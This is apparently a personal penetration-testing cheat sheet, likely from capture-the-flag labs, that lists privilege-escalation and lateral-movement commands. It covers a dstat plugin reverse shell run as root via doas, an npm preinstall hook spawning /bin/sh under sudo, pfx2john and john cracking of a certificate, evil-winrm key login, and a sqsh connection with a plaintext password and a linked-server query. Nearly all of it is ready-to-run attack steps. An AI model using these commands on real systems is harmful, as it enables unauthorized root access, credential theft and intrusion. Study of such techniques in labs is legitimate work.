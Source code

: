 ```
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```



# Privsec

## dstat privesc

nano /usr/local/share/dstat/dstat_lemon.py // reverse shell

doas -u root /usr/bin/dstat --lemon // run this

and there you go shell on your box




## npm privesc

mkdir exploit

echo '{"scripts": {"preinstall": "/bin/sh"}}' > exploit/package.json

sudo /usr/bin/npm -C /dev/shm/exploit/ --unsafe-perm i

## pfx file decode

pfx2john legacyy_dev_auth.pfx > pfx.hash
john pfx.hash --wordlist=/usr/share/wordlists/rockyou.txt

## evil-winrm 

evil-winrm -i 10.10.11.152 -k key.pem -c pfx.crt -u -p -S // priv and pub key login

## Windows cmds

PS C:\Logs\WEBDB> type * | Select-String TEIGNTON \\ grep words

## Sqsh

sqsh -S 10.13.37.12:1433 -U teignton\\karl.memaybe -P 'B6rQx_d&RVqvcv2A'

select * from openquery("web\clients", 'select name from master..sysdatabases');

## yml privesc

ruby file need to load this dependencies.yml so we modifed the file to do mallicious action that /bin/bash permission change.

